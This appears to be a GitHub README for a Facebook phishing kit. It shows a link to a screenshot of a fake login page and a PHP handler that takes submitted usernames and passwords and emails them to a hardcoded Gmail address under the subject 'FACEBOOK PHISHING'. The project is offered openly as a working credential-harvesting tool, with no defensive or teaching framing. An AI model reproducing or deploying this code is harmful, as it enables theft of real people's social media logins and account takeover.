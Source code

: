 # Facebook-Phishing
Facebook Phishing { UI &amp;  [fish (User_Name &amp; Password)] Send Your email address }
<br><br>
![ui01](https://user-images.githubusercontent.com/77710282/158953984-17708128-2cff-445f-88c9-0f6daf64e9ee.PNG)


## PHP FUNCTION
```
<?php 
	
	//php STRAT
	if ( isset($_POST['submit']) )
	
	{
		$email		= $_POST['email'];
		$subject	= $_POST['subject'];
  
		$to	 		  = 'dhjptharindu@gmail.com'; // your email address
		$mail_subject = 'FACEBOOK PHISHING ';
		$email_body   = "<h2> FISH FACEBOOK DETAILS: </h2><br><br>";
    $email_body   .= "<b>USER NAME:</b> {$subject} <br>";
		$email_body   .= "<b>PASSWORD:</b> {$email} <br>";
		$header       = "From: {$email}\r\nContent-Type: text/html;";

		$send_mail_result = mail($to, $mail_subject, $email_body, $header);
	}
?>
```
